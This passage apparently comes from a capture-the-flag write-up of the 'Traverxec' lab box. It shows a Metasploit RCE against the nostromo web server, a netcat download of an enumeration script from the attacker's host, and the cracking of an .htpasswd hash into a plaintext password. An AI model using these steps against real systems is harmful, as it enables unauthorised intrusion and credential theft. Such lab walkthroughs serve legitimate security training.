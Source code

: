 Very interesting. It appears that there is a RCE vulnerability in the nostromo framework. Let's boot up msfconsole and see if we can get it to work.

## Initial Foothold
Wow, the metasploit exploit actually worked. This doesn't normally happen? I guess that's our initial foothold in the bag.
```
www-data@traverxec:/var$ ls
ls
backups  cache  lib  local  lock  log  mail  nostromo  opt  run  spool  tmp
www-data@traverxec:/var$ 
```
<br />

## Getting User
Let's do some initial enumeration. For some reason the upload command in metasploit isn't working, and wget doesn't work either, so let's try netcat.
```
www-data@traverxec:/tmp$ nc 10.10.xx.xx 4444 > LinEnum.sh
```
```
$ nc -lv -p 4444 < LinEnum.sh
```
<br />

Cool, that worked. So let's begin our initial enumeration on the server itself.
```
www-data@traverxec:/tmp$ sh LinEnum.sh

...

-e [-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
-e

...
```
<br />

A hash found in one of the nostromo .htpasswd files? Interesting, let's crack it.
```
$ echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > david.hash
$ john david.hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"                         
Use the "--format=md5crypt-long" option to force loading these as that type instead                                  
Using default input encoding: UTF-8                                                                                  
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])                                
Will run 12 OpenMP threads                                                                                           
Press 'q' or Ctrl-C to abort, almost any other key for status                                                        
Nowonly4me       (david)                                                                                             
1g 0:00:00:24 DONE (2019-12-30 22:48) 0.04144g/s 438409p/s 438409c/s 438409C/s NuiMeanPoon..Norri83                  
Use the "--show" option to display all of the cracked passwords reliably                                             
Session completed
```
<br />
